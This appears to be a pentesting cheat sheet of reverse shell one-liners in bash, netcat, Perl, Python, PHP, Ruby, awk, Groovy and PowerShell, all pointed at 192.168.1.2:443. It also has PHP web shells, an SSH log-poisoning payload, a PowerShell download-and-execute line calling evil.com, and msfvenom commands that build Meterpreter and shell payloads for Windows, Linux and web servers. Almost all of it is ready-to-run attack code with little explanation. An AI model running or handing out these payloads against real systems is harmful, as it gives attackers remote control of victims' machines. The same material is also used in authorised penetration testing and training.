 * Bash

  ```cmd
  bash -i >& /dev/tcp/192.168.1.2/443 0>&1

  bash -c "bash -i >& /dev/tcp/192.168.1.2/443 0>&1"
  
  bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.2%2F443%200%3E%261%22
  ```
  
* Web Shell

  ```php
  <?php system($_GET['cmd']);?>
  ```
  
* Web Shell (SSH Log Poisoning)

  ```php
  ssh '<?php system($_GET['c']); ?>'@192.168.1.2
  ```

* Netcat

  ```cmd
  nc -e /bin/sh 192.168.1.2 443

  nc -e /bin/bash 192.168.1.2 443

  nc -c bash 192.168.1.2 443
  
  nc.exe -e cmd 192.168.1.26 443

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f
  
  rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.1.2%20443%20%3E%2Ftmp%2Ff
  ```

* Perl

  ```cmd
  perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

* Python

  ```cmd
   export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  ```

* PHP

   ```php
  php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'

  php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
  ```

* Ruby

  ```cmd
  ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

  ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

  ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  ```
  
* Xterm

   ```cmd
   xterm -display 192.168.1.2:443
   ```
   
* Ncat

  ```cmd
  ncat 192.168.1.2 443 -e /bin/bash
  ```

* Powershell

  ```powershell
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  ```

  ```powershell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

  ```powershell
  powershell IEX (New-Object Net.WebClient).DownloadString('https://www.evil.com/reverse.ps1')
  ```

* Awk

  ```cmd
  awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
  ```
  
  
* Groovy

  ```cmd
  String host="192.168.1.2";
  int port=443;
  String cmd="cmd.exe";
  Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
  ```


# Msfvenom

* Php

  ```msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php```

  ```msfvenom -p php/reverse_php LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php```

* War

  ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war```
  
* Aspx

  ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f aspx -o reverse.aspx```

## Windows

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

## Linux

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```
